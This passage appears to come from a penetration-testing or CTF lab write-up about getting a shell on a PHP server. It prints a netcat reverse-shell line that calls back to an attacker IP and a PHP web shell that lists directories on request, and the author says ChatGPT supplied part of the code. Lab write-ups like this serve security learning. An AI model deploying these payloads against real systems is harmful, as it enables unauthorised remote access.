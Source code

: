 - Now lets go for `reverse shell`. I tried `pentest monkey's php rev shell` but its not working. Also tried direct rev shell with the below code but it is also not working

```php
<?php system("nc -e /bin/sh 172.21.42.246 4444"); ?>
```

- I noticed in phpinfo that some important functions are disabled, so we might not be able to take reverse shell.

![image.png](Files/image%2016.png)

- Need to find another way.. searched on google for alternative ways to get reverseshell and found something related to webshell. I used chatgpt to know more about it and get the php code for it.
- If all command execution functions are blocked, we **inject a web shell** that uses **PHP functions only**, like this:

```php
<?php if(isset($_REQUEST['cmd'])) { echo "<pre>"; print_r(scandir($_REQUEST['cmd'])); echo "</pre>"; } ?>

```

- Uploaded the file with above code and executed it like below and got the directories listed

![image.png](Files/image%2017.png)
